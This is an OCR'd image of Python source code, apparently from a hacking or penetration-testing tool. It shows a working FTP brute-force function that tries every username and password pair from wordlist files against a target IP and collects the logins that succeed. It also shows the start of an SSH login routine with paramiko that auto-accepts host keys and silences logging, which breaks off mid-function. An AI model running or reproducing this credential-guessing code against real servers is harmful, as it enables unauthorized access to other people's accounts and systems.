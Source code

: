     def brute_force_FTP(targetIP: str) -> None:
        """Gets ip address and tries to login to FTP server 
        users and passwords from file
        uses module ftplib.FPT()
        Args:
            targetIP (str): ip address
        Returns: FTP_cerdentials (dict) : key: targetIP, value: list of lists; each list consists of pair user and password
        """
        print(f"Calling brute_force_FTP on {targetIP}")
    
        # files: users and passwords operations
        
        password_file = "passwd.txt"
        users_file = "users.txt"
        users = open(users_file)
        passwds = open(password_file)
        users_list = users.readlines()
        pass_list = passwds.readlines()
        users.close()
        passwds.close()
    
        ftpServer = ftplib.FTP()
        FTP_credentials = {}
        user_pass = []
    
        for user in users_list:
            user = user.strip()
            for passwd in pass_list:
                passwd = passwd.strip()
                try:
                    print(f"Trying: {user}: {passwd}")
                    ftpServer.connect(targetIP, 21, timeout=1000)
                    ftpServer.login(user, passwd)
                    print(f"[+] Found combo for FTP:\n\tHOSTNAME: {targetIP}\n\tUSERNAME: {user}\n\tPASSWORD: {passwd}")
                    user_pass.append([user, passwd])
                    FTP_credentials[targetIP] = user_pass
                    ftpServer.close()
                except Exception as error:
                    print(f"[!] {error}")
        return FTP_credentials
    
    def try_connect(hostname, username, password, port=22) -> dict:
        """Tries to connect on SSH port using arguments
        Args:
            hostname (str): hostname
            username (str): username
            password (str): password
            port (int, optional): port number Defaults to 22
        Returns:
            dict: dict consists of three parameters: ip, user and password if those are valid otherwise returns False:bool
        """
        logging.getLogger('paramiko.transport').addHandler(NullHandler())
        # initialize SSH client
        client = paramiko.SSHClient()
        # add to know hosts
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        try:
            client.connect(hostname=hostname, username=username, password=password, timeout=10, port=port)